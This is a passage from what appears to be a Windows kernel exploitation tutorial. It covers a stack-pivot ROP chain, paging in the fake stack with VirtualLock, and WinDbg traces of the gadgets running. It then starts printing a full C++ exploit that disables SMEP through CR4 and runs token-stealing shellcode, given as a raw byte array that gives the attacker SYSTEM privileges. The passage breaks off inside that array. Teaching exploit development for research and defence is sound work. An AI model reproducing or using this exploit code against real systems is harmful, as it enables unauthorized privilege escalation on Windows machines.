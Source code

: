 On executing the pivot gadget we get a crash. This issue can be tricky to debug – essentially 2 things are happening. First, we need a bit of space before and after our gadgets so the kernel can read/write there, and additionally, we have to make sure that the stack is actually paged in because page faults will not be handled at this point (we are still in kernel mode). We update our PoC by adding 0x1000 bytes in front of our buffer and then use `VirtualLock` to force the memory to be paged in:

```cpp
QWORD stackAddr = STACK_PIVOT_ADDR - 0x1000;
LPVOID kernelStack = VirtualAlloc((LPVOID)stackAddr, 0x14000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!VirtualLock(kernelStack, 0x14000)) {
    printf("Error using VirtualLock: %d\n", GetLastError());
}
```

Now we no longer get a crash and can run our ROP-nops!

```
0: kd> ba e1 fffff8046bd17f70
0: kd> g
nt!ExfReleasePushLock+0x20:
fffff804`6bd17f70 bc00000048      mov     esp,48000000h
1: kd> dq 48000000 -100
00000000`47ffff00  00000000`00000000 00000000`00000000
...
1: kd> dq 48000000
00000000`48000000  41414141`41414141 41414141`41414141
...
1: kd> t
nt!ExfReleasePushLock+0x25:
fffff804`6bd17f75 83c428          add     esp,28h
1: kd> p
nt!ExfReleasePushLock+0x28:
fffff804`6bd17f78 c3              ret
1: kd> p
nt!CmpUnlockKcbStackFlusherLocksExclusive+0x3a:
fffff804`6bc00042 c3              ret
```

At this point, the hardest part is over. We can now execute ROP-gadgets which means we can repeat the exact same steps we used in our stack overflow exploit. First, we flip the 20th bit in CR4 to disable SMEP and then jump to our shellcode (which is the same as before). The full exploit:

```cpp
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>
#include <Psapi.h>

#define QWORD ULONGLONG

BYTE sc[256] = {
  0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48,
  0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xc0, 0x4d,
  0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x49, 0x81, 0xe8, 0x48,
  0x04, 0x00, 0x00, 0x4d, 0x8b, 0x88, 0x40, 0x04, 0x00, 0x00,
  0x49, 0x83, 0xf9, 0x04, 0x75, 0xe5, 0x49, 0x8b, 0x88, 0xb8,
  0x04, 0x00, 0x00, 0x80, 0xe1, 0xf0, 0x48, 0x89, 0x88, 0xb8,
  0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01,
  0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x66,
  0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01, 0x00, 0x00, 0x48,
  0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48, 0x8b, 0x8a, 0x68,
  0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78, 0x01, 0x00, 0x00,
  0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8b, 0xaa,
  0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f, 0x01, 0xf8, 0x48,
  0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
```